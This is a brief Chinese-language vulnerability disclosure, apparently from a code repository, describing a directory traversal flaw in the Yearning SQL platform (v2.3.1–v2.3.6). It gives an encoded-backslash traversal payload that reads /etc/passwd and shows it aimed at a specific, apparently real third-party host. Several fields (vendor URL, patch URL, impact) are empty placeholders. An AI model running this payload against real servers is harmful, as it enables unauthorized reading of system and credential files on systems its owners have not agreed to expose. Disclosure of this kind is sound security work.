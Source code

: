 # yearning存在目录遍历漏洞

## 写在前面

厂商url：
安全补丁url：
项目地址：

## 漏洞影响版本

版本: v2.3.1 Interstellar GA 

版本: v 2.3.2 Interstellar GA 

版本: v 2.3.4 Neptune 

版本: v 2.3.5 Neptune

版本: v 2.3.6 Neptune

## 漏洞描述

如果您想完成复现过程，请严格使用我给您提供的poc

```
/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

![image-20220308110341311](img/image-20220308110341311.png)

访问https://mysql.zb-sx.cn/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308110402638](img/image-20220308110402638.png)

## 漏洞影响

xxxxx